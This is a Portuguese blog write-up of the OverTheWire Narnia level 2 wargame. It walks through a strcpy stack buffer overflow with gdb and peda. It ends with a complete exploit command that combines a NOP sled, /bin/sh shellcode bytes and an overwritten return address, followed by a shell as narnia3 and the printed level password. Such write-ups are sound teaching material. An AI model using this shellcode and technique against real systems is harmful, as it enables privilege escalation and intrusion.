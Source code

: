 ```yaml
---
layout: default
title: Level 2 - Explorando um stack overflow como se fosse anos 90 [OverTheWire CTF – Narnia] write-up
date: 2017-01-03 17:00
author: brennords
comments: true
categories: [CTFs]
---
```

<ul>
    <li><a href="https://brenn0.wordpress.com/2016/12/06/level-0-overthewire-ctf-narnia-write-up/">Level 0</a></li>
    <li><a href="https://brenn0.wordpress.com/2016/12/13/level-1-overthewire-ctf-narnia-write-up/">Level 1</a></li>
</ul>

Continuando a viagem por narnia, chegou a hora de passar do level2.

Logado no ssh do ctf e dentro de <strong>/narnia</strong>, executei o chall pela primeira vez:

```
narnia2@melinda:/narnia$ ./narnia2
Usage: ./narnia2 argument
```

Executando com o argumento:

```narnia2@melinda:/narnia$ ./narnia2 argumento
argumentonarnia2@melinda:/narnia$
```

Aparentemente ele só imprime o argumento passado e nada mais. Pode-se confirmar o comportamento checando o código fonte:

https://gist.github.com/anonymous/9eb7a87061a1436de489ac2136ca9ce5

Simples.

Na primeira linha da função <strong>main</strong>, temos um <a href="http://linguagemc.com.br/string-em-c-vetor-de-caracteres/">vetor de chars</a> chamado <strong>buf </strong>que tem o tamanho necessário para guardar 128 caracteres. Logo depois tem um if simples que verifica se foi ou não passado um argumento para o programa, mas essa parte é dispensável. A linha mais importante é a <strong>strcpy(buf,argv[1]);</strong>

<a href="http://www.cprogressivo.net/2013/03/strcpy-Como-copiar-uma-String-em-C.html">strcpy</a> é uma função famosa por seu potencial perigoso. O que ela faz é copiar o segundo argumento para o primeiro. Mas ao contrário da sua parente <a href="http://linguagemc.com.br/a-biblioteca-string-h/">strncpy</a>, a função não te dá a opção de avisar o quanto se pode copiar para a variável de destino. No casso do chall, strcpy apenas supõe que buf é grande o suficiente para receber o valor que vier de argv[1].

Apesar de não haver nada de errado em usar strcpy (sei lá que motivo alguém teria), não dá pra usar a mesma quando se está tratando de dados que podem variar de tamanho e muito menos para entradas de usuários pela razão óbvia: a variavel de destino pode ter um tamanho menor do que a entrada de dados, o que causaria um bom e velho <a href="https://pt.wikipedia.org/wiki/Transbordamento_de_dados">buffer overflow</a>.

Hora de ver um buffer se estourando na prática:

```narnia2@melinda:/narnia$ ./narnia2 `python -c 'print A*150'`
Segmentation fault```

Apesar do erro <strong><a href="https://pt.wikipedia.org/wiki/Falha_de_segmenta%C3%A7%C3%A3o">Segmentation fault</a></strong> não significar exatamente que o que aconteceu foi mesmo um problema de buffer overflow, já vamos confirmar que o erro foi causado por terem sido passados 150 A's como argumento.

```narnia2@melinda:/narnia$ gdb -q narnia2
Reading symbols from narnia2...(no debugging symbols found)...done.
(gdb) source /usr/local/peda/peda.py
gdb-peda$ checksec
CANARY : disabled
FORTIFY : disabled
NX : disabled
PIE : disabled
RELRO : disabled
gdb-peda$
```

O comando checksec do <a href="https://github.com/longld/peda">peda</a> serve para verificar se o binário tem determinadas proteções. Nem vou entrar no mérito de explica-las porque ainda estou engatinhando por essas águas (engatinhar na água?), mas foi bom saber que não há nenhuma proteção ativa e que o programa pode ser explorado como se <a href="http://insecure.org/stf/smashstack.html">estivessemos nos anos 90</a>.

No <a href="https://brenn0.wordpress.com/2016/12/06/level-0-overthewire-ctf-narnia-write-up/">write-up do level0</a> falei de forma básica pra caaralho de como o stack se parecia e funcionava. Irei supôr que saibas o que tentei ensinar e agilizar este post pulando as explicações que fiz lá.

Agora quer saber a razão do segmentation fault?

https://gist.github.com/anonymous/25d4109f19931355b815b4eb1b9f28f9

É bastante informação nova se você não conhece sobre <a href="http://www.numaboa.com.br/informatica/queisso/521-registradores">registradores</a>. Por um momento pensei em detalhar tudo usando minhas próprias palavras, mas por que reescrever o que já foi escrito e publicado por aí? Recomendo <a href="http://www.crimesciberneticos.com/2011/03/exploiting-buffer-overflow.html">este</a> bom link que dá uma aula sobre os registradores, o stack e tudo mais que você precisaria para entender o resto da exploração neste write-up (lá chega até a ter informação suficiente para que se possa resolver o chall sem precisar de write-up).

Agora voltando...

O segmentation fault acontece quando o programa tenta acessar um endereço de memória proibido para ele, seja por questões de permissões ou por questão de existência. No caso acima, pode-se comprovar que é o segundo caso.

Quando insiro 150 B's e o programa só tem reservado no stack espaço para 128 desses caracteres, acabo sobreescrevendo seja lá o que estiver no próprio stack depois desses 128 bytes. Se você seguiu meu conselho e deu uma lida <a href="http://www.crimesciberneticos.com/2011/03/exploiting-buffer-overflow.html">aqui</a> antes de continuar, sabe bem o que é um stack frame. Sabe também que, quando uma função é chamada, o programa "pula" para o determinado endereço que as instruções da função estão e que, no fim dessa função, o programa precisa saber para onde voltar. Para voltar, o software usa um endereço de retorno, que é sempre salvo no stack assim que se chama alguma função. Esse endereço fica bem abaixo do stack frame.

Logo, assim que 128 B's lotam o espaço reservado pela variavel buf, os outros 22 B's sobreescrevem o que vem em seguida e entre esses dados sobreescritos está o endereço de retorno.

[caption id="attachment_1366" align="aligncenter" width="400"]<img class="size-full wp-image-1366" src="https://brenn0.files.wordpress.com/2016/12/stack_frame.jpg" alt="Créditos pela imagem: http://www.crimesciberneticos.com/2011/03/exploiting-buffer-overflow.html" width="400" height="241" /> Créditos pela imagem: http://www.crimesciberneticos.com/2011/03/exploiting-buffer-overflow.html[/caption]

É importante que entendas sobre o funcionamento do stack, então, reforço que não ignores <a href="http://www.crimesciberneticos.com/2011/03/exploiting-buffer-overflow.html">este</a> link e pesquise mais pela internet se houver dúvidas.

Assim que a função termina seu trabalho, o programa vai buscar no stack o endereço de retorno salvo anteriormente (estou abstraindo todas <a href="http://www.cin.ufpe.br/~arfs/Assembly/apostilas/Tutorial%20Assembly%20-%20Gavin/Default.htm">instruções em asm</a> responsáveis por pôr isso em prática). Mas o que acontece se os B's extras sobreescreveram e corromperam esse endereço? O programa não tem como saber e vai tentar retornar sua execução de toda a forma. E é por isso que no dump acima <strong>EIP</strong> (o registrador responsável por guardar o endereço da próxima instrução a ser executada) tem o valor <strong>0x42424242</strong>: o endereço de retorno apontava para 4 B's hexadecimais. E 0x42424242 não é um endereço válido, logo, causa para um segmentation fault.

Se controlamos o endereço de retorno, controlamos o processo. E se controlamos o processo, podemos obriga-lo a fazer nossas vontades. E a vontade aqui é ganhar uma shell com privilegios narnia3.

Ok, mas como fazer isso?

Basicamente o que precisa ser feito é: inserir instruções no processo e fazer com que o endereço de retorno aponte para onde estiver essas instruções. Vamos substituir o endereço de retorno original pelo endereço de nosso <a href="https://brenn0.wordpress.com/2016/12/13/level-1-overthewire-ctf-narnia-write-up/" target="_blank" rel="noopener">shellcode</a>.

 Mas antes de usar qualquer shellcode, precisa-se saber onde o mesmo estará na memória. Há varias formas de se descobrir isso. Usei o gdb e o peda para pôr um breakpoint no momento que a função main chama strcpy, afinal, tanto o endereço de origem, quanto o endereço de destino da nossa string envenenada serão passados como argumento para a função.

https://gist.github.com/anonymous/6a126497f672ea88e5f3760f4897062b

Logo ali na linha 32 pode-se ver os "Guessed arguments".

```arg[0]: 0xffffd4c0 --0x2c (',')
arg[1]: 0xffffd741 ('B' repeats 150 times)
```

Como a <a href="http://www.cplusplus.com/reference/cstring/strcpy/">documentação de strcpy</a> nos conta, temos aí o primeiro argumento <strong>0xffffd4c0</strong> como sendo o destino da cópia da string e <strong>0xffffd741</strong> a origem.

https://gist.github.com/anonymous/caf593f9ec433eafa6fbde9ab756a452

Usei o comando 'n' de next para executar e parar na instrução seguinte sem entrar na função (use 's' de step e veja a diferença). E com o comando x/s [endereço] vejo que os B's estão bem guardados nos dois endereços que peguei de strcpy.

Agora é só pôr nesse endereço o shellcode e sobreescrever o endereço de retorno.

Para mudar o endereço de retorno, preciso saber qual parte dos 150 B's sobreescreveu o mesmo. Também há várias técnicas para descobrir. Muitas vezes consigo calcular o tamanho do stack frame analisando o asm da função, dessa forma, adiciono + 4 ao tamanho do frame e sobreescrevo exatamente o endereço de retorno.

https://gist.github.com/anonymous/fb9335ee41a863cc8bab2aa94b205e90

As instruções responsáveis pela formação do stack frame de main são as 4 primeiras (de main+0 a main+6). A primeira, <strong>push ebp</strong>, salva o valor que aponta para a base do stack (ebp) no próprio stack. A segunda, <strong>mov ebp,esp</strong>, envia o valor da base do stack (ebp) para esp, conhecido como stack pointer e responsável por apontar para o topo do stack. A terceira linha, faz <a href="https://stackoverflow.com/questions/24588858/and-esp-0xfffffff0">isso aqui</a> (começando a ter preguiça de contar tudo). E a quarta, <strong>sub esp,0x90</strong>, subtrai do stack pointer atual o valor 90h que em decimal é 140.

Isso me parece bem mais fácil de entender com a ajuda de desenhos e tal. Vou deixar <a href="http://duartes.org/gustavo/blog/post/journey-to-the-stack/">este link</a> que dá uma aula melhor que a minha.

O que mais importante se tira da interpretação dessas instruções é: o tamanho que a função main reservou para os dados é de 140.

É possível provar facilmente se esse valor está correto. Enviarei 140 B's + 4 R's como argumento para o programa e ver o que acontece.

https://gist.github.com/anonymous/564696a8bb80e15d470f2d789feaa5f5

Agora temos a faca e o queijo na mão.

Usei o mesmo shellcode usado no <a href="https://brenn0.wordpress.com/2016/12/13/level-1-overthewire-ctf-narnia-write-up/">chall anterior</a> e comecei a montar o exploit. Subtrai os 48 bytes do shellcode e preferi, ao invés de B's, usar um <a href="https://en.wikipedia.org/wiki/NOP_slide">nopsled</a> para preencher o espaço restante do buffer porque é coisa de leet. O exploit ficou: <strong>\x90 * 92 + shellcode + endereço de retorno.</strong>

Ainda somei uns bytes ao endereço que peguei sendo argumento de destino para o buffer só para ver o nopsled em ação e ao invés de usar <strong>0xffffd4c0</strong>, usei <strong>0xffffd510 </strong>(faça suas modificações e analise com o gdb se souber).

```narnia2@melinda:/narnia$ ./narnia2 `python -c 'print \x90*92 + \x31\xc0\xb0\x46\x31\xc9\x31\xdb\xcd\x80\xeb\x18\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\x31\xc0\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68 + \x10\xd5\xff\xff'`
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
bm9vb29i```


